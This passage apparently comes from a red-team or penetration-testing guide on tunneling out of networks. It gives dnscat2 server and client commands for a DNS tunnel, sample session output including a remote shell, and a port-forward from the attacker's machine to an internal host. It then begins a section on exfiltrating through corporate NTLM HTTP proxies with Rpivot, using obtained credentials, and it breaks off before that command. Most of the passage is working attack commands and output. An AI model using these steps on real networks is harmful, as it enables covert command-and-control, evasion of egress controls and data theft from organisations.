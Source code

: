 <div>

    ruby ./dnscat2.rb tunneldomain.com

</div>

Client side:

`./dnscat2 tunneldomain.com`

After you receive a connection of server side, you can view the active
sessions with `windows` command:

<div>

    dnscat2> windows
    0 :: main [active]
      dns1 :: DNS Driver running on 0.0.0.0:53 domains = tunneldomain.com [*]
      1 :: command session (debian)
      2 :: sh (debian) [*]

</div>

To initiate port forwarding select a command session with
`session -i <num>`:

<div>

    dnscat2> session -i 1
    New window created: 1
    New window created: 1
    history_size (session) => 1000
    This is a command session!

    That means you can enter a dnscat2 command such as
    'ping'! For a full list of clients, try 'help'.

    command session (debian) 1>

</div>

Use `listen [lhost:]lport rhost:rport` command to forward a port:

`command session (debian) 1> listen 127.0.0.1:8080 10.0.0.20:80`

This will bind port 8080 on the attacker’s machine and forward all
connections to 10.0.0.20:80.

### Corporate HTTP proxy as a way out

HTTP proxies organization place for their employees to access external
web-application present a good exfiltration opportunity given you got
the right credentials ;)

#### Rpivot

I already mentioned this tool in the NAT traversal section. It also
supports connecting to the outside world via NTLM HTTP proxies. Server
side command remains intact, use client-side command as follows:
